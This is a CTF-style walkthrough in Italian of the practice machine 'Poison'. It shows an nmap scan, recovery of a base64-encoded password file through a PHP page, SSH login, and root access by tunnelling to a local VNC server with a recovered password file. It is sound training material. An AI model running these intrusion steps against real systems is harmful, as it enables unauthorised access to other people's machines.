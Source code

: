 # Poison

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.84
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.84
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/12%OT=22%CT=1%CU=41530%PV=Y%DS=2%DC=I%G=Y%TM=6527A9
OS:F2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=Z%II=RI%TS=21)
OS:OPS(O1=M54DNW6ST11%O2=M54DNW6ST11%O3=M280NW6NNT11%O4=M54DNW6ST11%O5=M218
OS:NW6ST11%O6=M109ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)
OS:ECN(R=Y%DF=Y%T=40%W=FFFF%O=M54DNW6SLL%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=FFFF%S=O%A=S+%F=AS%O=M109NW6ST11%
OS:RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Enumeration

Innanzitutto, visito la pagina http://10.10.10.84/:

<p align="center">
  <img src="/Immagini/Linux-Box/Poison/poison-1.png" />
</p>

Provo quindi ad inserire gli script elencati e uno di questi (_listfiles.php_) produce un output interessante:

```text
Array (
  [0] => .
  [1] => ..
  [2] => browse.php
  [3] => index.php
  [4] => info.php
  [5] => ini.php
  [6] => listfiles.php
  [7] => phpinfo.php
  [8] => pwdbackup.txt
  )
```

Provo ad insererire nel form "pwdbackup.txt" e ottengo il seguente output:

```text
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

## Exploitation

Come suggerisce il testo nella parte iniziale del file provo ad effettuare la decodifica 13 volte, ricavando il seguente testo:

```text
Charix!2#4%6&8(0
```

Banalmente, provo ad accedere tramite ssh utilizzando le seguenti credenziali:
  * Utente: **charix**
  * Password: **Charix!2#4%6&8(0**

**Riesco ad entrare e ad ottenere il primo flag!**

<p align="center">
  <img src="/Immagini/Linux-Box/Poison/poison-2.png" />
</p>

## Privilege Escalation

Provo ad eseguire il comando _unzip_ sul file _secret.zip_ e scopro che è protetto dalla stessa password utilizzata precedentemente. Ottengo però un file che, almeno per il momento, non risulta essere interessante.

Provo quindi a cercare una via per diventare root.

Ispezionando i processi in esecuzione mi accorgo di che è attivo VNC sulla porta 5901 in localhost:

```text
USER    PID %CPU %MEM  VSZ  RSS   TT  STAT STARTED  TIME      COMMAND
root    529 0.0  0.9 23620  8932  v0- I    10:08    0:00.04   Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

VNC è un software che consente di visualizzare e controllare l'interfaccia utente grafica di un computer remoto. Per questo motivo c'è bisogno di una connessione specifica abilitando il port forwarding.

Per fare ciò, il seguente comando:

```text
ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84
```

Quindi, tutte le connessioni in arrivo sulla porta 5000 della mia macchina saranno instradate sulla porta 5901 in localhost sulla macchina _poison_.

Provo a connettermi utilizzando il seguente comando:

```text
vncviewer 127.0.0.1:5000
```

Ma richiede una password.

Dopo una breve ricerca capisco finalmente a cosa serve il file _secret_ ricavato precedentemente:

```text
vncviewer 127.0.0.1:5000 -passwd secret
```

<p align="center">
  <img src="/Immagini/Linux-Box/Poison/poison-3.png" />
</p>


## Credits

Vorrei ringraziare [Rana Khalil](https://twitter.com/rana__khalil) per la sua [guida](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/poison-writeup-w-o-metasploit#0811).
